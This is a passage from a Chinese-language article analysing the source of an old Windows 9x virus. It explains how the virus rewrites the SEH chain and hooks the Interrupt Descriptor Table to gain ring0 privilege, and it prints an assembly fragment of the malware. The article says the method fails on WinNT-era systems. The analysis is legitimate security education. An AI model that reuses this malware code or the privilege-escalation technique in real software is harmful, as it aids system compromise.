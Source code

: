 程序的第一段是修改Windows的SEH\(Structured Exception Handing\)。首先，什么是SEH?为什么要修改SEH呢？

SEH，Structured Exception Handing, 结构化异常处理，是Windows操作系统的异常和分发处理机制.该机制的实现方式是将FS\[0\]指向一个链表，该链表告诉操作系统当出现异常的时候应该找谁处理。

类似于我们现实生活中的紧急联系人列表，如果应用程序出了什么问题，就交给链表中的一号紧急联系人处理，如果一号紧急联系人无法处理，就交给二号联系人。依次类推。当所有的异常处理函数都调用完成，而异常仍然没有处理掉，这时，操作系统就会调用默认的异常处理程序，通常是给出错误提示并关闭应用程序。

而修改SEH的原因我们会在稍后介绍。

以上代码通过修改FS\[0\]使得当前的SEH指向StopToRunVirusCode

SEH是Windows提供的异常处理机制，直至今天仍然在各个安全领域应用。

## 进入内核

```
odify *
; * IDT(Interrupt Descriptor Table) *
; * to Get Ring0 Privilege... *
; *************************************

push eax ;
sidt [esp-02h] ; Get IDT Base Address
pop ebx ;

add ebx, HookExceptionNumber*08h+04h ; ZF = 0

cli

mov ebp, [ebx] ; Get Exception Base
mov bp, [ebx-04h] ; Entry Point

lea esi, MyExceptionHook-@1[ecx]

push esi

mov [ebx-04h], si ;
shr esi, 16 ; Modify Exception
mov [ebx+02h], si ; Entry Point Address

pop esi

int HookExceptionNumber
```

接下来这段代码通过修改中断描述符表，获得CPU的ring0权限。

而在WinNT操作系统中，IDT所指向的内存已经无法修改，因此在执行这段代码时，会产生异常。也就是说，这种获取Ring0权限的方法，现在已经没有效果了。

因此，上段代码修改SEH,或者称为编辑SEH的目的就很明了了。

目的就在与识别当前的操作系统，如果发现是WinNT或以后的操作系统，就会自动产生异常并跳到StopToRunVirusCode，停止运行。

当在win9x操作系统时，这段代码通过修改中断描述符表，使异常处理函数指向MyExceptionHook。最后一句


[^1st]: <https://www.geekpark.net/news/212936>
[^2nd]: <https://www.anquanke.com/post/id/164959>